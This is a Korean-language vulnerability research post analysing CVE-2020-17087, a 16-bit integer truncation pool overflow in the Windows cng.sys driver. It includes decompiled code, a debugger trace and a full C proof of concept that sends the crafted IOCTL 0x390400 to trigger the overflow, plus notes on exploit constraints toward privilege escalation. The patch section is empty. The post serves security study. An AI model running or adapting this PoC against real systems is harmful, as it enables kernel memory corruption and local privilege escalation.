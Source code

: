 ```yaml
---
layout: post
author: "smlijun"
title: CVE-2020-17087-Windows pool buffer overflow in cng.sys IOCTL
---
```




Introduction
---
Windows의 커널 암호화 드라이버인 `cng.sys`에서 발생한 buffer overflow 취약점 CVE-2020-17087을 분석하고 In the Wild에서 쓰였던 버그인 만큼 local privilege escalation까지 도달 할 수 있는 방법을 연구해보려고 한다. 분석은 `Windows 10 1909(OS build 18363.418)`에서 진행 하였다.

About CNG
---
[MSDN](https://docs.microsoft.com/en-us/windows/win32/seccng/about-cng)에 따르면 CNG는 기존의 `Cryto API`를 대체하기 위해서 만들어졌다고 한다. 또한 확장성이 좋게 설계 되었다고 한다. MSDN에서 여러 예제나 사용방법을 확인 할 수 있다.


The Vulnerability
---
bug class는 16-bit integer truncation로 인한 `buffer overflow`이다. 해당 취약점은은 IOCTL 0x390400 처리 중 `cng!CfgAdtpFormatPropertyBlock`에서 발생한다. 해당 루틴은 다음과 같은 call로 호출된다. 다른 드라이버들 처럼 IOCTL에 따라 dispatch하는 루틴을 쉽게 확인 할 수 있다.

`call stak`
```
cng!CfgAdtpFormatPropertyBlock
cng!CfgAdtReportFunctionPropertyOperation+0x23e
cng!BCryptSetContextFunctionProperty+0x3a2
cng!_ConfigurationFunctionIoHandler+0x3bd5c
cng!ConfigFunctionIoHandler+0x4e6
cng!ConfigIoHandler_Safeguarded+0xd2
cng!CngDeviceControl+0x97
cng!CngDispatch+0x8a
```
`cng!CfgAdtpFormatPropertyBlock code snippet`
```c
__int64 __fastcall CfgAdtpFormatPropertyBlock(char *SourceBuffer, unsigned __int16 buffersize, __int64 OutputBuffer)
{
 ....
  v3 = 0;
  v6 = SourceBuffer;
  if ( SourceBuffer && buffersize && OutputBuffer )
  {
    v7 = 6 * buffersize;
    v8 = BCryptAlloc((unsigned __int16)(6 * buffersize)); //[+] overflow here
    v9 = v8;
    if ( v8 )
    {
      v10 = (_WORD *)v8;
      if ( buffersize )
      {
        v11 = buffersize;
        do
        {
          *v10 = byte_1C009CE70[(unsigned __int64)(unsigned __int8)*v6 >> 4];
          v12 = v10 + 1;
          v13 = *v6++;
          *v12++ = byte_1C009CE70[v13 & 0xF];
          *v12 = 32;
          v10 = v12 + 1;
          --v11;
        }
        while ( v11 );
...
  return v3;
}
```
위 로직을 보면 `BcryptAlloc`에서 integer overflow가 발생한다. `buffer size`는 uint16 type으로 선언 되어있으나 `buffersize * 6`을 수행했을때 0x10002이나 타입이 uint16이므로 0x2만 남게된다. 아래는 디버깅 결과이다.
```
rax=0000000000005556 rbx=0000000000000000 rcx=0000000000000002
rdx=0000000000002aab rsi=ffffe105fd086958 rdi=0000000000000002
rip=fffff805705328ca rsp=ffffe105fd0868e0 rbp=0000000000002aab
 r8=ffffe105fd086958  r9=ffffe105fd086e60 r10=0000000000000004
r11=0000000000000000 r12=ffffa582fe1f9000 r13=ffffe105fd086ee0
r14=ffffa582fe1f9000 r15=ffffe105fd086eb8
iopl=0         ov up ei pl nz na pe cy
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040a03
cng!CfgAdtpFormatPropertyBlock+0x4e:
fffff805`705328ca e82105fbff      call    cng!BCryptAlloc (fffff805`704e2df0)
```
`BcryptoAlloc()`의 인자가 2로 세팅된것을 확인 할 수 있다.
추가적으로 overflow가 발생한 상황에서 우리가 원하는 값을 완전히 적을 수 없다. `do-while`로 감싸진 부분을 보면 `input buffer`로 들어온 값을 특정 연산을 수행한 후에 `output buffer`에 적는 것을 확인 할 수 있다.

PoC
---
```c
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
    HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
        printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
        return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE* IoctlData = (BYTE*)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)&IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)&IoctlData[0x04] = 0x10400;
    *(DWORD*)&IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)&IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)&IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)&IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
        hCng,
        0x390400,
        IoctlData,
        IoctlSize,
        &OutputBuffer,
        sizeof(OutputBuffer),
        &BytesReturned,
        NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
}
```

Exploit Condition
---
해당 취약점을 사용해서 exploit을 수행해기 위해서는 다음과 같은 제약 조건이 있다.
1. overflow는 0x10000~0x5FFFA byte만큼 덮어 쓸 수 있다.
2. overflow가 발생하는 buffer는 `NonPagedPoolNx`를 통해 할당되며 0x2~0xFFFF사이의 크기를 가진다.
3. 덮여 쓰여지는 값은 `XX 00 XX 00 20 00`의 형태를 가지며 XX는 0x30~0x39, 0x61~0x66의 범위를 가진다. 

The patch
---

